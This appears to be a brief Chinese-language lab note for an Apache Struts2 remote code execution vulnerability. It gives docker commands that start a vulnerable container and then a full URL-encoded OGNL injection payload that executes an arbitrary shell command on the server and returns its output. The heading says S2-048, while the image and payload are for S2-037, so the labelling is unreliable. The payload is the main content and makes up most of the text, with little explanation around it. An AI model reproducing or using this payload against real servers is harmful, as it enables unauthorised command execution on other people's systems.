 ###S2-048 远程代码执行漏洞
### 环境搭建
```
docker pull medicean/vulapps:s_struts2_s2-037
docker run -d -p 8080:8080 medicean/vulapps:s_struts2_s2-037
```
### exploit

http://127.0.0.1:8080/orders/4/[payload]

```
(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=id
```
